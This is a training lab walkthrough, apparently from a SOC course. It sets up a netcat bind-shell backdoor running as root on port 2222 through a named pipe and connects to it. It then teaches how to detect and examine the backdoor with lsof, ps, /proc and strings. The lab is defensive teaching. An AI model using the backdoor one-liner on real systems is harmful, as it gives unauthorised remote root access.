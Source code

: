 
# Linux CLI

In this lab we will be looking at a backdoor through the lens of the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The first will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

$`sudo su -`

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

/#`mknod backpipe p`

Next, let's start the backdoor:

/#`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basicly, this will create a backdoor listening on port 2222 of our linux system.

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we will need to know the IP address of our linux system:

$`ifconfig`

![](attachments/Clipboard_2020-12-11-07-18-27.png)

Now, let's connect:

$` nc 172.30.249.49 2222`

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

`ls`
`whoami`

![](attachments/Clipboard_2020-12-11-07-19-48.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we succesfully connected to the backdoor.  It just drops our curser back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

$`sudo su -`

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basicly, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

/#`lsof -i -P`


![](attachments/Clipboard_2020-12-11-07-23-35.png)

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

/#`lsof -p 131`

![](attachments/Clipboard_2020-12-11-07-24-11.png)

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

/#`ps aux`

![](attachments/Clipboard_2020-12-11-07-24-39.png)

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very usesfull as it allows us to dig into the memory of a process that is currently running on a suspect system.

/#`cd /proc/[pid]`

![](attachments/Clipboard_2020-12-11-07-25-14.png)

We can see a number of interesting directories here:

/#`ls`

![](attachments/Clipboard_2020-12-11-07-28-21.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

/#`strings ./exe`

![](attachments/Clipboard_2020-12-11-07-25-54.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it direcly out of memory!

![](attachments/Clipboard_2020-12-11-07-27-29.png)

















